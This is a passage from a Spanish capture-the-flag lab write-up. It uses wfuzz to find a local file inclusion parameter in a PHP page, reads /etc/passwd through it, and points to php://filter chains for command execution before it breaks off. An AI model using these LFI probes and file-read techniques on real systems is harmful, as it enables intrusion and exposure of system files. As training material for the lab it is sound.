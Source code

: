 Como vemos hay un "secret.txt" que solo nos dice que hay un usuario llamado "lin", pero lo mas interesante es que todas las paginas estan hechas en _php_, y como sabemos, pueden ocultar parametros. Ahora comenzaremos a buscar parametros por el `index.php`, para hacerlo usaremos `wfuzz` de la siguiente manera:

```css
wfuzz --hl=13 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://172.17.0.2/index.php?FUZZ=/etc/passwd"
```

```ruby
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/index.php?FUZZ=/etc/passwd
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                        
=====================================================================

000000027:   200        32 L     47 W       1257 Ch     "search" 
```

Como vemos nos ha encontrado que el parametro "search" permite un LFI.

Al poner `?search=/etc/passwd` en el "index.php" podemos confirmar que hay un usuario "lin" en el servidor. Normalmente _si el puerto 22 estuviera abierto_ podriamos intentar leer la clave privada de el usuario "lin", pero como en este caso no esta abierto el ssh, por lo que tendremos que probar el [Wrapper php://filter](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md), si esto nos funciona significara que podremos ejecutar comandos en el sistema. Para confirmarlo solo pegamos uno en el parametro "search" y si nos da resultado significa que podremos ejecutar comandos.

![wrapper](./images/lfi.elf/imagenes/wrapper.png)

Como vemos ha funcionado, entonces ahora podremos ejecutar comandos en el sistema usando el script [php\_fileter\_chain\_generator](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py) de la siguiente manera:
